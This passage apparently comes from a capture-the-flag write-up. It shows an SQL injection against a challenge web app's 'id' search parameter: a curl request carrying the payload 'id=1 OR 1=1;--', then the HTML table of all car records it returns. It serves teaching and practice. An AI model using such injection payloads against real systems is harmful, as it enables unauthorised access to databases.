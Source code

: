 So I noticed that it seemed it was querying a db with that `id` parameter so I attempted sql injection.

I tried this payload in curl to see if I could get all the cars with sqli:

```bash
curl --data "id=1 OR 1=1;--" --cookie "client=3123248" http://web1.cybercastors.com:14435/search
```

Indeed, I got all the car data:

```html
<tr>
    <th>Type</th>
    <th>Make</th>
    <th>Model</th>
    <th>Year</th>
  </tr>
  
  <tr>
    <td style="text-align:center">Sport</td>
    <td style="text-align:center">Audi</td>
    <td style="text-align:center">R8</td>
    <td style="text-align:center">2020</td>
  </tr>
  
  <tr>
    <td style="text-align:center">Sport</td>
    <td style="text-align:center">Ferrari</td>
    <td style="text-align:center">Portofino</td>
    <td style="text-align:center">2018</td>
  </tr>
  
  <tr>
    <td style="text-align:center">Sedan</td>
    <td style="text-align:center">Hyundai</td>
    <td style="text-align:center">Genesis</td>
    <td style="text-align:center">2019</td>
  </tr>
  
  <tr>
    <td style="text-align:center">Sedan</td>
    <td style="text-align:center">Ford</td>
    <td style="text-align:center">Focus</td>
    <td style="text-align:center">2015</td>
  </tr>
  
  <tr>
    <td style="text-align:center">Sport</td>
    <td style="text-align:center">Lamborghini</td>
    <td style="text-align:center">Aventador</td>
    <td style="text-align:center">2016</td>
  </tr>
  
  <tr>
    <td style="text-align:center">Minivan</td>
    <td style="text-align:center">Honda</td>
    <td style="text-align:center">Odyssey</td>
    <td style="text-align:center">2020</td>
  </tr>
  
  <tr>
    <td style="text-align:center">Sport</td>
    <td style="text-align:center">Bugatti</td>
    <td style="text-align:center">Chiron</td>
    <td style="text-align:center">2019</td>
```